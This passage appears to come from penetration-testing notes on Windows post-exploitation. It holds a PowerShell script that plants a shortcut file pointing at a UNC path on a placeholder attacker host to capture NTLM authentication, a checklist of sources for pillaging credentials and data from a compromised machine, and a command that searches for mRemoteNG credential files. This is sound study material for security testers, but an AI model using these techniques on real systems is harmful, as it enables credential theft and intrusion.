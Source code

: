 ```powershell-session
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```



### Pillaging

* Pillaging is the process of obtaining information from a compromised system.
* It can be personal information, corporate blueprints, credit card data, server information, infrastructure and network details, passwords, or other types of credentials, and anything relevant to the company or security assessment we are working on.
* Below are some of the sources from which we can obtain information from compromised systems:
  * Installed applications
  * Installed services
    * Websites
    * File Shares
    * Databases
    * Directory Services (such as Active Directory, Azure AD, etc.)
    * Name Servers
    * Deployment Services
    * Certificate Authority
    * Source Code Management Server
    * Virtualization
    * Messaging
    * Monitoring and Logging Systems
    * Backups
  * Sensitive Data
    * Keylogging
    * Screen Capture
    * Network Traffic Capture
    * Previous Audit reports
  * User Information
    * History files, interesting documents (.doc/x,.xls/x,password._/pass._, etc)
    * Roles and Privileges
    * Web Browsers
    * IM Clients

#### Extracting Clipboard data

[extracting-clipboard-data-windows.md](extracting-clipboard-data-windows.md "mention")



### &#x20;Search entire windows for a file

* cd to the directory you want to search in

```
 dir /s *confCons.xml* 
```

\


